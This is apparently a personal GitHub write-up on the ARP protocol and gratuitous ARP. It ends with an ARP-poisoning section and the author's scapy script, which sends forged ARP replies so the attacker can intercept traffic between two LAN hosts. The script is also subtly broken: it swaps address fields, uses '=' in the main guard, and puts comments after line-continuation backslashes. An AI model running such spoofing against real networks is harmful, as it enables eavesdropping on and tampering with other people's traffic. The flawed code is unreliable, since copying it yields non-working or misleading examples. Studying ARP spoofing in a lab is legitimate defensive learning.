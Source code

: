 # ARP

ARP is a layer 2 Protocl that bridges between the layer 2 (Ethernet) and layer 3 (IP) addressing schemes. Since there is no direct forula used for "translation" between MAC and IP addresses ARP is used to fill that gap.

To route packets through a network, both an IP address and a MAC address are needed, an IP address of the final destination of the packet and the MAC address of the next hop in the route to that final destination dictated by the IP address. When one of these factors are unknown ARp is used to solve for it.

The way it works is by sending a request to the entire network in a broadcast asking who the holder of the IP/MAC address is, so that they can provide the missing address. To further understand let's imagine a scenario:

> An endpoint doesn't know the MAC address of their default gateway to route the message to the internet. That endpoint will send an ARP request to the LAN asking for the MAC of the default gateway.

The protocol's packet format is as follows:

```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Hardware Type               | Protocol Type                 |
+---------------+-------------+-------------------------------+
| Hw Addr Len   | Pr Addr Len | Opcode                        |
+-----------------------------+-------------------------------+
| Sender Hardware Address (size is written in Hw Addr Len)    |
|                             +-------------------------------|
|_____________________________|                               |
| Sender Protocol Address (size is written in Pr Addr Len)    |
+-------------------------------------------------------------+
| Target Hardware Address                                     |
|                             +-------------------------------|
|_____________________________|                               |
| Target Protocol Address                                     |
+-------------------------------------------------------------+
```

The `Hardware Type` field is for different types of Layer 2 address formats, together with the `Hardware Address Length` it is used to decide the address in the Sender & Target Hardware address. Same goes for the `Protocol Type` and `Protocol Address Length`.

An Ethernet (Hardware) & IP (Protocol) request can be summed up this way: "Who has [IP/MAC Address]? I am [My IP Address] [My MAC Address]." (In broadcast)
And a reply will be: "I am [IP/MAC Address], my MAC/IP Address is [Address]."

## Gratutious ARP Reply

A gratutious arp is an arp reply that was not prompted by any request, It is usually sent when a machine updates their IP to MAC mapping and wants other machine to update it as well, Or when a new machine joins the network. It may use a gratutious ARP reply to annouce it's existence. A gratutious arp will be sent in broadcast, their Send L2 and L3 address wil use to update the network machine's mac tables, the target L3 and L2 are irrelevant.

There is another use case for the gratutious ARP reply, and that is when **two machines** (Like routers) **use a shared IP** but own **different MAC addresses** Or when they **share both IP and MAC addresses**.

> In the first case (Two routers share an IP address), when one router fails the other router will send a gratutious ARP to let all ther other machines on the network know that the reduntant IP should be mapped to ther other router's MAC address.

> In the second case (Two routers share IP and MAC addresses), when one router fails the other will send a gratutious arp reply to let the switch know to remap the MAC and IP to the (then) inactive port, where the functioning router is connetced. The machines on the network do not update their MAC tables.

# Vulnerability

There is a problem with this system however, ARP responses may be accepted by machines without them ever sending a request. And that may lead to a malicious change in the victim's ARP table. One that let's the attacker become a middlemen! An attacker can then diguise themselves as another machine, and actch all the network directed to that machine. Once they have that network they can alter it, block it or simply just read it.

How I did it, a very simple script. If you want to palce yourself as a middle man in-between two machine's first you have to be on the first Lan. But that's a given, so next you have to make them both think that the other machine is you. And I accomplished that with this simple python script using scapy:

```
# ArpPoisoningAttack.py
# 06.02.2023
# By Daniel

# Imports
from scapy.all import *

# Constants
OPCODE          = 2                     # Reply code

ATTACKER_MAC    = "00:50:56:9a:c6:e5"   # My MAC Address, not used

VICTIM_ONE_MAC  = "00:50:56:9a:b0:60"   # Victim 1's MAC & IP addresses
VICTIM_ONE_IP   = "192.168.100.2"

VICTIM_TWO_MAC  = "00:50:56:9a:30:8a"   # Victim 2's MAC & IP sddresses
VICTIM_TWO_IP   = "192.168.100.1"


def main():
    malicious_arp1 = Ether(dst=VICTIM_TWO_MAC)/\
                     ARP(\
                        op=OPCODE,\                                 # Opcode automatically fills IP and MAC compatible settings for all other fields.
                        psrc=VICTIM_ONE_IP,\                        # When no hardware source is given, it fills the sender's MAC.
                        hwdst=VICTIM_TWO_IP, pdst=VICTIM_TWO_MAC\
                     )

    malicious_arp2 = Ether(dst=VICTIM_ONE_MAC)/\
                     ARP(\
                        op=OPCODE,\
                        psrc=VICTIM_TWO_IP,\                        # This packer will be sent to victim 1, posing as victim 2 with attacker's mac.
                        hwdst=VICTIM_ONE_MAC, pdst=VICTIM_ONE_IP\   # The above packet will be sent to victim 2, posing as victim 1,
                     )
    
    sendp(malicious_arp1)
    sendp(malicious_arp2)                                            # :) You just got poisoned


if (__name__ = "__main__"):
    main()
```

![The packets as seen in wireshark](/Pictures/ARP_Poisoning/Wireshark_View.PNG)

The above script sends a packet to each of the machines posing as the other machine. We can then see the effects on both machine's ARP Tables:

![Machine1, IP: 192.168.100.1](/Pictures/ARP_Poisoning/Victim_1_Poisoned_ARP_Table.PNG)

![Machine2, IP: 192.168.100.2](/Pictures/ARP_Poisoning/Victim_2_Poisoned_ARP_Table.PNG)

